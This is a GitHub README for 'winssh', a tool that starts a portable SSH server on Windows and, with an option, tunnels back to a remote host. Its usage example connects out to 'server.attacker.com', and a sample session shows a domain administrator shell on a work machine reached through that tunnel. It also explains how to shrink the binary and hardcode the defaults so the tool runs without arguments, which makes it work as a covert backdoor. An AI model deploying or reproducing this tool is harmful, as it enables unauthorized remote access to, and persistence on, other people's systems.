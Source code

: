 # Winssh

Spawns a ssh server on windows. No installation required.
Based on https://github.com/PowerShell/Win32-OpenSSH/

## Usage

When launched without arguments, `winssh.exe` default to start an OpenSSH server on port 127.0.0.1:8022.
You can specify a port using:
```
winssh.exe --port <port>
```

You can also specify a server and port to connect back to using:

```
winssh.exe --tunnel-server server.attacker.com --tunnel-port 2222
```

Then on your machine, you can just connect to the ssh port you forwarded:

```
ssh -i files/key dummy@localhost -p 8022
WORK-JUNON\administrator

ssh -i files/key 'WORK-JUNON\administrator'@localhost -p 8022
work-junon\administrator@S021M015 C:\Users\administrator.WORK-JUNON>
```
Note that the server banner is the username we need to use to connect!

On every build new keys will be generated. After starting the server you can use the "key" from the files directory. The key `key_reverse` from the files directory is used to connect back to the remote server (if specified) so you will need to add it to your authorized_keys file, e.g.:

```
cat files/reverse_key.pub >> /home/tunnel/.ssh/authorized_keys
```

## Compile

```
rustup target add x86_64-pc-windows-gnu
rustup toolchain install stable-x86_64-pc-windows-gnu
```

Windows:
```
cargo build --release --target x86_64-pc-windows-gnu
```

To reduce the filesize further, you can strip the binaries with `strip`.


## Other

If you want to run without any arguments modify the source to hardcode the default values for tunnel-server and both ports.